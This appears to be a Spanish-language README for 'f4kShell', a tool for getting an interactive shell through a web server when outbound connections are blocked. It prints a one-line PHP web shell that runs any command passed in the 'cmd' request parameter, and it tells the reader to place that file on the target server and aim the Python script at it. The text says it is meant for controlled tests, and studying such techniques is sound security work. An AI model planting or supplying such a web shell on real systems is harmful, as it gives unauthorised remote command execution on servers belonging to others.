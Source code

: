 # f4kShell

* En entornos reales suelen existir reglas de red y restricciones (p. ej. reglas de firewall o filtros que bloquean conexiones salientes) que impiden establecer shells reversas tradicionales. Por eso, en pruebas controladas es interesante estudiar técnicas alternativas para recuperar una sesión interactiva y entender los riesgos asociados a la ejecución remota de comandos desde un servidor web.

* Basta con colocar en el servidor un archivo PHP similar al mostrado abajo, cuyo propósito es ejecutar comandos en el entorno remoto.

```php
<?php
      system($_REQUEST['cmd']);
?>
```

* Con el archivo ya en el servidor, basta ejecutar el script (no olvides modificar la ruta del "cmd.php" dentro del script 
"f4kshell.py"para que apunte al fichero PHP y ruta correcta). Abajo se muestra un ejemplo de lo que permite realizar.

![imagen](https://i.ibb.co/8n5hZHWs/cara.png)
